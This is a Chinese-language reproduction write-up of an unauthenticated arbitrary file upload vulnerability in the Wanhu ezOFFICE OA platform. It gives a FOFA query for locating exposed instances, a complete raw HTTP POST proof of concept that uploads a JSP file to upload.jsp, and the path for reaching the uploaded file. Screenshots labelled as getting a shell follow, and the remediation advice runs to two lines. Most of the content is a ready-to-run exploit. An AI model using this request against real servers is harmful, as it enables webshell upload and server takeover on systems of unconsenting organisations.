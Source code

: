 
# 万户OA upload任意文件上传漏洞复现

### 0x01 产品简介

   万户[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020) ezoffice是万户网络协同办公产品多年来一直将主要精力致力于中高端市场的一款OA协同办公软件产品，统一的基础管理平台，实现用户数据统一管理、权限统一分配、身份统一认证。统一规划门户网站群和协同办公平台，将外网信息维护、客户服务、互动交流和日常工作紧密结合起来，有效提高工作效率。

### 0x02 漏洞概述

 万户ezOFFICE协同管理平台upload接口处存在任意[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以通过此漏洞上传恶意后门文件，造成代码执行或服务器失陷。

### 0x03 复现环境

FOFA：app="万户ezOFFICE协同管理平台"

![](assets/1700528571-b74744b0203ea46319a9f4f3f352dd7f.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /defaultroot/platform/portal/layout/common/upload.jsp?portletSettingId=123&path=abc HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=b0d829daa06c13d6b3e16b0ad21d1eed

--b0d829daa06c13d6b3e16b0ad21d1eed
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream

<%out.print("test");%>
--b0d829daa06c13d6b3e16b0ad21d1eed--
```

![](assets/1700528571-1fedb6d29f9954fb2c56b14240f3d29d.png)

验证url

```cobol
http://your-ip/defaultroot/upload/abc(path参数的值)/202311(现年月)/(返回的文件名).jsp
```

![](assets/1700528571-51647ac08c844d4fcfd03fccc4acbc78.png)

GetShell 

![](assets/1700528571-4a267ccd982a173c2d7235157ac63492.png)

尝试连接 

![](assets/1700528571-274f57c8fe17b8e8ca2deef2a48c2bd1.png)

### 0x05 修复建议

关闭互联网暴露面或接口处设置访问权限

打补丁或升级安全版本
